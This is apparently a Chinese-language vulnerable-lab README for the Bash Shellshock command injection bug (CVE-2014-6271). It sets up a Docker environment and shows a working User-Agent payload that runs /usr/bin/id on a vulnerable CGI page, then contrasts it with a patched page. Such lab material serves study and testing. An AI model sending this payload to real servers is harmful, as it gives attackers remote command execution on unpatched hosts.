


Bash Shellshock 远程命令注入漏洞（CVE-2014-6271）¶
编译运行：
docker compose up -d
服务启动后，有两个页面http://your-ip:8080/victim.cgi和http://your-ip:8080/safe.cgi。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。
将payload附在User-Agent中访问victim.cgi：
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
命令成功被执行：

同样的数据包访问safe.cgi，不受影响：
